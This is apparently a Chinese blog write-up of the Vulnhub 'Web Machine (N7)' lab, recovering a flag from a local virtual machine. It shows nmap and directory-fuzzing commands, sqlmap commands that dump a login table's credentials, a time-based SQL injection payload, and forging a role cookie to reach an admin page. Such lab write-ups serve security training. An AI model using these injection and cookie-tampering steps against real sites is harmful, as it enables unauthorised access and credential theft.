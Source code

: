```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
category: 靶场实战
---
```

## Web Machine (N7)

靶机ip：192.168.56.101

kali攻击机ip：192.168.56.102

注：关于vmware和virtual box虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1. 使用nmap扫描c段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```
### 2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现exploit.html文件，访问并提交文件，发现跳转到localhost。将localhost改为靶机ip尝试。

![image-20221209203518987.png](https://kyonk.v6.army:1443/Zk10Bb.png)

点击提交，得到部分flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要admin权限。接下来可以对登陆界面使用sqlmap检测是否有注入漏洞，或是bp抓包分析。

### 3. 使用sqlmap进行sql注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://kyonk.v6.army:1443/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://kyonk.v6.army:1443/5AH2sR.png)

### 4. bp抓包分析

![image-20221209205529082.png](https://kyonk.v6.army:1443/nKhqbY.png)

response中set-Cookie中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合bp或sqlmap。

思路2：根据此漏洞猜解用户名，不如思路1。

思路3：针对admin.php，修改request中cookie中role为admin

![image-20221209212032503.png](https://kyonk.v6.army:1443/gAMIcc.png)

得到：   `KSA_01}`